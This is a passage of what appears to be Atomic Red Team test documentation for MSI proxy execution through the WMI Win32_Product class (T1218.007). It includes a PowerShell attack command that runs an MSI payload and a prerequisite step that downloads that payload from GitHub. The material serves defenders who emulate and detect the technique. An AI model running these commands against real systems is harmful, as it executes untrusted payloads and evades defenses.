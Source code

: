 **auto_generated_guid:** cf470d9a-58e7-43e5-b0d2-805dffc05576

#### Inputs:

| Name        | Description                                                                                                                     | Type   | Default Value                                                        |
| ----------- | ------------------------------------------------------------------------------------------------------------------------------- | ------ | -------------------------------------------------------------------- |
| msi_payload | MSI file to execute                                                                                                             | path   | PathToAtomicsFolder&#92;T1218.007&#92;bin&#92;T1218.007_VBScript.msi |
| action      | Specifies the MSI action to perform: Install, Admin, Advertise. The included MSI is designed to support all three action types. | string | Install                                                              |

#### Attack Commands: Run with `powershell`!

```powershell
Invoke-CimMethod -ClassName Win32_Product -MethodName #{action} -Arguments @{ PackageLocation = '#{msi_payload}' }
```

#### Dependencies: Run with `powershell`!

##### Description: The MSI file must exist on disk at specified location (#{msi_payload})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{msi_payload}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{msi_payload}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.007/bin/T1218.007_VBScript.msi" -OutFile "#{msi_payload}"
```

<br/>
<br/>

## Atomic Test #7 - WMI Win32_Product Class - Execute Local MSI file with an embedded DLL

Executes an MSI containing an embedded DLL using the WMI Win32_Product class

**Supported Platforms:** Windows

**auto_generated_guid:** 32eb3861-30da-4993-897a-42737152f5f8

#### Inputs:

| Name        | Description                                                                                                                     | Type   | Default Value                                                   |
| ----------- | ------------------------------------------------------------------------------------------------------------------------------- | ------ | --------------------------------------------------------------- |
| msi_payload | MSI file to execute                                                                                                             | path   | PathToAtomicsFolder&#92;T1218.007&#92;bin&#92;T1218.007_DLL.msi |
| action      | Specifies the MSI action to perform: Install, Admin, Advertise. The included MSI is designed to support all three action types. | string | Install                                                         |
